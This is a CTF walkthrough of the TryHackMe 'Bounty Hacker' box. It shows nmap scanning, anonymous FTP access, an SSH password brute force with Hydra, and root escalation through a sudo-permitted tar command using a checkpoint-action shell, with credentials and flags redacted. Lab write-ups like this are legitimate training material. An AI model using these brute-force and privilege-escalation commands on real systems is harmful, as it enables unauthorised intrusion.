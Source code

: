 ```yaml
---
title: Bounty Hacker
tags: [TryHackMe, Facile, Bruteforce]
style: fill
color: danger
modified: 2024-08-26
comments: false
description: Une box particulièrement facile pour débuter
---
```


# TryHackMe: Bounty Hacker <!-- omit in toc -->

![box image](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)
![Easy](https://img.shields.io/badge/Difficulty-Easy-Green?logo=tryhackme)

>All the important informations like usernames, passwords, and flags will be  redacted so everybody can take the challenge. Have fun!

## Table of Content <!-- omit in toc -->

* [1. Enumeration](#1-enumeration)
* [2. The FTP Server](#2-the-ftp-server)
* [3. Bruteforce SSH with Hydra](#3-bruteforce-ssh-with-hydra)
* [4. Connection to the server](#4-connection-to-the-server)
  * [4.1. User flag](#41-user-flag)
  * [4.2. Root access](#42-root-access)

---

## 1. Enumeration

The first task of this box is to find open port. So let's run `nmap`.

```bash
$ nmap -T4 -A 10.10.xx.xx 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-20 11:59 CET
Nmap scan report for 10.10.xx.xx
Host is up (0.042s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.63.xxx
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.96 seconds
```

We found a FTP server with anonymous login allowed on port 21, a SSH server on port 22, and an Apache web server on port 80.

The web server allows us to understand the story of our character. Nothing useful for the next steps.

## 2. The FTP Server

Let's check what we can find in the FTP server.

```bash
$ ftp anonymous@10.10.xx.xx  
Connected to 10.10.xx.xx.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

We can download the files with the `get <file>` command.

If we open the `task.txt` file, we can find the name required for to answer the first question of the box

```bash
$ cat task.txt    
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

[redacted]
```

The other document looks like a passwords file. Maybe we can use it to perform some bruteforce attack on the SSH server.

```bash
$ head -n 5 locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
```

## 3. Bruteforce SSH with Hydra

Now we have a potential username within the `task.txt` file and what might be a passwords file, let's check if we can find the right password.

```bash
$ hydra -l [redacted] -P locks.txt 10.10.xx.xx ssh   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-20 12:24:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.xx.xx:22/
[22][ssh] host: 10.10.xx.xx   login: [redacted]   password: [redacted]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-20 12:24:27
```

We have a match! Now we can access the machine via SSH

## 4. Connection to the server

### 4.1. User flag

```bash
$ ssh [redacted]@10.10.xx.xx
[redacted]@10.10.xx.xx's password: 
[redacted for brevity]
[redacted]@bountyhacker:~/Desktop$ ls -hl
total 4.0K
-rw-rw-r-- 1 [redacted] [redacted] 21 Jun  7  2020 user.txt
[redacted]@bountyhacker:~/Desktop$ cat user.txt 
[redacted]
```

The user flag can easily be found on the user desktop. Now let's escalate our privileges.

### 4.2. Root access

```bash
[redacted]@bountyhacker:~/Desktop$ sudo -l
[sudo] password for [redacted]: 
Matching Defaults entries for [redacted] on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User [redacted] may run the following commands on bountyhacker:
    (root) /bin/tar
```

The user has the ability to use the command `/bin/tar` as sudo user. The [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) website will help us taking advantage of this privilege.

```bash
[redacted]@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

We got the root shell with the command we found! Now we are close to find the root flag.

```bash
root@bountyhacker:~# cd /root
root@bountyhacker:/root# cd ~/Desktop/
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls -hl
total 4.0K
-rw-r--r-- 1 root root 19 Jun  7  2020 root.txt
root@bountyhacker:/root# cat root.txt 
[redacted]
```
